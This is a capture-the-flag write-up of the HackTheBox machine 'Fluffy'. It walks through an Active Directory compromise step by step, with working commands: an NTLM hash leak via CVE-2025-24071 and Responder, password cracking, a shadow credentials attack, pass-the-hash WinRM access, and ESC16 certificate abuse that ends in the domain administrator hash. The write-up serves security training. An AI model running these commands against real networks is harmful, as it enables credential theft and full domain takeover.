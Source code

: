 # Fluffy

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

**🏁 Summary of Attack Chain**


| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `j.fleischman` | **SMB Enumeration** | Used `smbmap` to enumerate SMB shares with the initial user credentials. Discovered the `IT` share, which had read and write permissions. |
| 2 | `p.agila` | **CVE-2025-24071 (NTLM Hash Leak)** | Uploaded a malicious `.library-ms` file to the `IT` share. When a user accessed the file, their NTLMv2 hash was leaked and captured using `Responder`. The hash was then cracked with `John the Ripper`, revealing the password `promXXXXXXXXXXX`. This provided access to the user `p.agila`. |
| 3 | `winrm_svc` | **Shadow Credentials** | A Bloodhound analysis showed that `p.agila` had `GenericWrite` permissions on `SERVICE ACCOUNTS` group members like `winrm_svc`. A shadow credential attack was performed on `winrm_svc`, allowing the attacker to get its NT hash and gain a WinRM shell. |
| 4 | `administrator` | **ESC16 Vulnerability** | A vulnerable Certificate Authority was identified. The `userPrincipalName` of the `ca_svc` account was changed to `administrator`, and a certificate was requested for `ca_svc` with the new UPN. This certificate was then used to authenticate as the `administrator` and retrieve the NT hash, which provided root access to the domain controller. |



#### Initial Access & NTLM Hash Leak


The initial foothold began with the provided credentials for the user j.fleischman. A standard Nmap scan of the target machine (Fluffy.htb) revealed several open ports, including SMB (445) and LDAP (389), indicating an Active Directory environment.

To investigate the SMB shares, I used smbmap with the provided credentials:

Bash

```
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```

![User_Flag](Pictures/htb_fluffy_smb_sharedir.png)

The scan showed that the IT share had READ, WRITE permissions. Upon listing the contents of this share with smbclient, several files were found, including a PDF named Upgrade_Notice.pdf. A vulnerability search related to these files led to CVE-2025-24071, an NTLM hash leak vulnerability involving .library-ms files.

I used a public proof-of-concept (PoC) to create a malicious .library-ms file and an associated ZIP file. The exploit was configured to direct hash requests to my attacking machine. I then uploaded these files to the IT share and started Responder to capture any incoming NTLM hashes.

Bash

**Uploading the malicious files**

```
smbclient //10.10.11.69/IT -U j.fleischman
smb: \> put docs.library-ms
smb: \> put exploit.zip
```

![User_Flag](Pictures/htb_fluffy_smb_expoit_c_and_u.png)

**Running Responder on my machine**

```
responder -I tun0 -wvF
```


Soon after, a user on the network accessed the malicious file, and Responder captured an NTLMv2 hash for the user p.agila. The hash was then cracked using john with the rockyou.txt wordlist, revealing the password: promXXXXXXXXXXX.

**Access Restricted by HackTheBox Rules**

<!--

# Privilege Escalation to winrm_svc

With the new credentials for p.agila, I used Bloodhound to analyze the Active Directory environment for potential privilege escalation paths.

Bash

```
bloodhound-python -u 'p.agila' -p 'promXXXXXXXXXXX' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

The analysis showed that p.agila was a member of the SERVICE ACCOUNTS group, which had GenericWrite permissions on several service accounts, including winrm_svc. This is a classic Shadow Credentials attack vector.

![p.agila ](Pictures/htb_fluffy_Service_account.png)

Note that p.agilayou can add yourself to servicethe user group

![permission ](Pictures/htb_fluffy_Service_account_Write_Per.png)

![Added ](Pictures/htb_fluffy_addedotserviceacc.png)

Then the group has write permissions servicefor the userCA_SVC

![ca_svc ](Pictures/htb_fluffy_casvblh.png)

Using certipy, I performed a shadow credential attack on the winrm_svc account to get its NTLM hash.

Bash

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
```

![Winrm Hash](Pictures/htb_fluffy_pagola_winrm_hash.png)

This gave me the NTLM hash for winrm_svc, which I then used with evil-winrm to get a shell on the domain controller.

Bash

```
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<winrm_svc_hash>'
```

![User_Flag](Pictures/htb_fluffy_user_flag.png)

This provided access to the user.txt flag.



####Domain Administrator Compromise via ESC16


Further enumeration with certipy revealed a critical vulnerability on the Certificate Authority (CA), specifically ESC16, which allows an attacker to exploit a misconfigured CA to impersonate other users.

Bash

```
certipy find -username ca_svc -hashes :<ca_svc_hash> -dc-ip 10.10.11.69 -vulnerable
```

The exploitation of ESC16 involved a series of steps:

I temporarily changed the userPrincipalName (UPN) of the ca_svc account to administrator.

I requested a certificate for ca_svc using the new administrator UPN.

I reverted the ca_svc account's UPN back to its original value.

Finally, I used the forged certificate to authenticate as the administrator and retrieve the domain administrator's NTLM hash.

Here's the sequence of commands:

Bash

**1. Update UPN of ca_svc to administrator**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```

![UPN_Update](Pictures/htb_fluffy_ca_svc_admin_perm.png)

**2. Request a certificate as the administrator**

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

![Request_Certificate](Pictures/htb_fluffy_adminpfx.png)

**3. Restore the UPN of ca_svc**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

![ca_svc](Pictures/htb_fluffy_casvcNT.png)

**4. Authenticate and get the administrator hash**

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

![Admin_hash](Pictures/htb_fluffy_admin_hash.png)

The final command successfully yielded the NTLM hash for the administrator, which can be used for a full domain compromise.

![Root_Flag](Pictures/htb_fluffy_Root.png)


-->


**Pwned! Fluffy**